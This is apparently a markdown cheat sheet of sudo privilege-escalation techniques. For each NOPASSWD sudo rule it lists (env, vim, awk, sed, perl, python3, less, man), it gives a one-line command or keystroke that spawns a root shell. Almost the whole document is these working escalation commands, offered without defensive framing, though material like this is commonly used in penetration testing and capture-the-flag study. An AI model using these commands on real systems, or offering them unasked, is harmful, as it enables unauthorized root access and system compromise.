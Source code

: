 ## env 
> (root) NOPASSWD: /usr/bin/env
```bash
sudo env /bin/bash
```

## vim
> (root) NOPASSWD: /usr/bin/vim <br>
> (root) NOPASSWD: /usr/bin/vi
```bash
sudo vim -c ':!/bin/bash'
```

## awk
> (root) NOPASSWD: /usr/bin/awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

## sed
> (root) NOPASSWD: /usr/bin/sed
```bash
sudo sed -n '1e exec sh 1>&0' /etc/passwd
```

## perl
> (root) NOPASSWD: /usr/bin/perl
```bash
sudo perl -e 'exec "/bin/bash";'
```

## python3
> (root) NOPASSWD: /usr/bin/python3
```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

## less
> (root) NOPASSWD: /usr/bin/less
```bash
sudo less /etc/hosts
```
After that, type `!bash` inside it.

## man
> (root) NOPASSWD: /usr/bin/man
```bash
sudo man man
```
After that, type `!bash` inside it.
